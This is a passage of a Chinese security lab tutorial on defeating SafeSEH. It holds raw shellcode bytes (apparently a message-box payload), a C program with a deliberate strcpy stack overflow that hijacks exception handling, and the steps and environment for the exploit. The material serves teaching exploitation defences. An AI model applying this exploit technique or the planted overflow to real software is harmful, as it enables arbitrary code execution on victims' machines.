 	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	__try{
		zero = 1/zero;
	}
	__except(MyException()){}
}

int _tmain(int argc, _TCHAR *argv[])
{
	// Load NO_SafeSEH Module
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));
	char str[200];
	//__asm int 3
	test(shellcode);
	return 0;
}
</code></pre>

#### 4.2 实验内容

<b>实验思路：</b>
1. 用VC++ 6.0编译一个不是用SafeSEH的动态链接库SEH_NOSafeSEH_JUMP.DLL，然后由启用SafeSEH的应用程序SEH_NOSafeSEH.EXE去加载
2. SEH_NOSafeSEH中的test函数存在典型的溢出，通过向str复制超长字符串造成str溢出，进而覆盖程序的SEH信息
3. 使用SEH_NOSafeSEH_JUMP.DLL中的"pop pop retn"指令地址覆盖异常处理函数地址，然后通过制造除0异常，将程序转入异常处理。通过劫持异常处理流程，程序转入SEH_NOSafeSEH_JUMP.DLL中执行"pop pop retn"指令，在执行retn后程序转入shellcode执行。

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3| DEP关闭|
|EXE编译器|Visual Studio 2008| |
|DLL编译器|VC++ 6.0|将dll基址设为0x11120000|
|编译选项|<font color=#f00>禁用优化选项</font>| |
|build版本|release版本| |
